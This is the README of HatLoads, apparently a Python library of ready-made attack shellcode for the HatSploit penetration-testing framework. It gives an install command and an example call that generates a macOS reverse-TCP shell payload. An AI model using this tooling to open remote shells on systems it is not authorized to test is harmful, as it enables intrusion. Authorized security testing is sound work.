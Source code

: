 # HatLoads

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatLoads">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatLoads/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatLoads?color=yellow">
    </a>
</p>

HatSploit collection of generic payloads designed to provide a wide range of attacks without having to spend time writing new ones.

## Features

* Contains a lot of useful shellcodes in assembly and bytes.
* Support for most common platforms like `macOS`, `Linux`, `Windows`.
* Ability to get custom code and assemble it.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatLoads
```

## Basic functions

There are all HatLoads basic functions that can be used to generate payloads.

* `get_payload(self, platform, arch, payload, options={}, assemble=True)` - Get assembly shellcode or assembled shellcode.

## Examples

```python3
from hatloads import HatLoads

options = {
    'RHOST': '127.0.0.1',
    'RPORT': 8888
}

hatloads = HatLoads()
shellcode = hatloads.get_payload(
    'macos',
    'x64',
    'shell_reverse_tcp',
    options
)
```
